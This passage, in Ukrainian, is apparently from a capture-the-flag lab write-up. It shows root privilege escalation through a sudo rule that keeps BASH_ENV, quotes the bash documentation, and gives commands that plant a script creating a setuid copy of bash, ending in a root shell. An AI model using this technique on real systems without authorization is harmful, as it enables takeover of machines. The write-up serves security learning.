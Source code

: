Тут я втратив трохи часу, думаючи де або як ми можемо перехопити виконання цих команд, оскільки вони працюють з привілеями root. Але після перевірки `sudo -l` знову, я бачу, що пропустив важливе `env_keep+="ENV BASH_ENV"`. Якщо коротко, це означає, що ми можемо перезаписати внутрішню змінну середовища bash, тому коли ми викликаємо `/usr/bin/systeminfo`, ми можемо передати нашу власну змінну зі шляхом до зловмисного скрипту, який отримає root шел при спробі виконати bash бінарник.

### BASH_ENV

[Документація gnu](https://www.gnu.org/software/bash/manual/bash.html#index-BASH_005fENV) визначає BASH_ENV як:
```
    Якщо ця змінна встановлена під час виклику Bash для виконання скрипта оболонки,
    її значення розширюється і використовується як ім'я файлу запуску,
    який слід прочитати перед виконанням скрипта. Див. Файли запуску Bash.
```

У розділі [Файли запуску Bash](https://www.gnu.org/software/bash/manual/bash.html#Bash-Startup-Files) сказано:
```
    Викликано в неінтерактивному режимі

    Коли Bash запускається в неінтерактивному режимі,
    наприклад, для виконання скрипта оболонки, він шукає змінну BASH_ENV в середовищі,
    розширює її значення, якщо воно там є, і використовує розширене значення як ім'я файлу
    для читання та виконання. Bash поводиться так, ніби було виконано наступну команду:

    if [ -n «$BASH_ENV» ]; then . «$BASH_ENV»; fi

    але значення змінної PATH не використовується для пошуку імені файлу.

    Як зазначено вище, якщо неінтерактивна оболонка викликається з опцією –login,
    Bash намагається прочитати та виконати команди з файлів запуску оболонки входу.
```

### Експлойт

Тепер, щоб отримати рут, нам потрібно створити наш власний shell скрипт, який скопіює bash бінарник з root привілеями, а потім вписати шлях до цього скрипта у змінній `BASH_ENV`:

```bash
hish@environment:~$ cat > /tmp/root.sh << 'EOF'
cp /bin/bash /tmp/root-bash
chmod +s /tmp/root-bash
EOF
hish@environment:~$ chmod +x /tmp/root.sh
hish@environment:~$ sudo BASH_ENV=/tmp/root.sh systeminfo && /tmp/root-bash -p

--- systeminfo output ---

root-bash-5.2# cd /root
root-bash-5.2# whoami
root
root-bash-5.2# cat root.txt
********************************
root-bash-5.2#
```

![image](imgs/root.png)

От і все!
Ми успішно отримали root шел в системі!
